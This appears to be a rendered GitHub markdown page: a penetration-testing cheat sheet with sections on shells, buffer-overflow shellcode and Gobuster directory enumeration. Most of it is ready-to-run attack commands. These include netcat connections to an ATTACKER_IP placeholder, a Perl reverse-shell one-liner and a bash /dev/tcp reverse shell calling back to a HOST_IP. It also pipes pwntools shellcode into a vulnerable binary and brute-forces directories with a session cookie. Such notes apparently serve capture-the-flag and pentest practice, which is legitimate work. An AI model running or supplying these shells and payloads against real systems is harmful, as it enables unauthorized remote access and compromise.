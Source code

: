 ### Shells

To use bind shell, we have to follow two steps: 1, Create a Bind Shell 2,Listen for connection.
```
> $ nc <ATTACKER_IP> <ATTACKET_PORT> 
```

```
> $ nc -lvp <ATTACKER_PORT>
```

If website is launching perl reverse shell, we can modify it to get better shell using Bash oneliner.

```
> $ perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"<HOST_IP>:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};' 2>&1
```

```
> $ bash -c 'bash -i &> /dev/tcp/<HOST_IP>/9001 0>&1'
```

### BufferOverflow
To generate shellcode quickly, we can use python `pwn` library.
```
> $ python -c "import pwn;print(pwn.asm(pwn.shellcraft.linux.sh))
```

```
> $ (python -c "import pwn;print(pwn.asm(pwn.shellcraft.linux.sh()))" ;cat) | ./vuln
```

### Gobuster

Normal Enumeration.

```
> $ gobuster dir -u http://<IP_ADDRESS> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

```

With Cookie (Useful to directory traversal when cookie is needed).
```
> $ gobuster dir -u http://<IP_ADDRESS> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -c PHPSESSID=<COOKIE_VALUE>
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://<IP_ADDRESS>
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] Cookies:        <COOKIE_VALUE>
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/04/19 01:43:01 Starting gobuster
===============================================================
/home.php (Status: 302)
/index.php (Status: 200)
```

